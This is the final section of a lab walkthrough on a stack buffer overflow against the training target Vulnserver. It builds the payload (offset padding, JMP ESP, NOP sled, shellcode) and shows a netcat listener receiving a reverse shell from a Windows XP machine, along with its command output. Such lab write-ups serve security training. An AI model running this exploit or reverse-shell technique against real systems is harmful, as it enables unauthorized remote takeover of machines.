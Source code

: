 The interrupts get hit as expected.

### 6. Construct exploit
The final exploit is constructed as [OFFSET][JMP ESP][NOPSLED (32 bytes)][SHELLCODE]
```python
exploit = 'A' * 2006 + jmpesp + '\x90' * 32 + shellcode
```

### 7. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[~/Documents/bof/vulnserver]
└─$ ./exploit.py  
[+] Opening connection to 192.168.34.148 on port 9999: Done
[*] Welcome to Vulnerable Server! Enter HELP for help.
```
Get a connection back.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1079
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>hostname
hostname
user-d0da1cb800

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.148
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```